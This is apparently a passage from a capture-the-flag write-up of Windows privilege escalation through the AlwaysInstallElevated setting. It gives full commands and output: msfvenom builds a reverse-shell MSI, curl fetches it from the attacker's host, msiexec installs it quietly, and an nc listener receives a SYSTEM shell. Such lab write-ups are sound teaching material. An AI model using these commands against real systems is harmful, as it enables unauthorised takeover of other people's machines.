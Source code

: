 - Token privileges for `Phoebe`: `SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED`
- UAC Status:
  ```powershell
   ConsentPromptBehaviorAdmin: 0 - No prompting
   EnableLUA: 1
   LocalAccountTokenFilterPolicy: 1
   FilterAdministratorToken: 0
       [*] LocalAccountTokenFilterPolicy set to 1.
       [+] Any local account can be used for lateral movement.
  ```
- AlwaysInstallElevated: `Active`
  ```powershell
  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
  ```

We found the vulnerability we were looking for. When a windows system has `AlwaysInstallElevated` set to 1, we can go to https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated and exploit this vulnerability as it is explained there. First, we need to know the architecture of the machine:
```powershell
C:\Users\Phoebe\Desktop>wmic os get OSArchitecture
wmic os get OSArchitecture
OSArchitecture  
64-bit  
```
Now that we know it is a x64 system, we can use msfvenom to create an `.msi` exectuble to grant us a reverse shell as `admin` user:
```powershell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 --platform windows -a x64 -f msi -o reverse_tcp.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse_tcp.msi
❯ ls
 windows-php-reverse-shell   reverse_tcp   reverse_tcp.msi
```
Now we can use the python http server to upload the msi and install it in the machine:
```powershell
C:\Users\Phoebe\Desktop>curl http://10.10.16.5/reverse_tcp.msi > reverse_tcp.msi
curl http://10.10.16.5/reverse_tcp.msi > reverse_tcp.msi
C:\Users\Phoebe\Desktop>msiexec /quiet /qn /i reverse_tcp.msi
msiexec /quiet /qn /i reverse_tcp.msi
```
While in the terminal listening to port `4444`:
```bash
❯ nc -nlvp 4444
Connection from 10.10.10.239:63401
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```
So we successfully obtained an administrator shell.
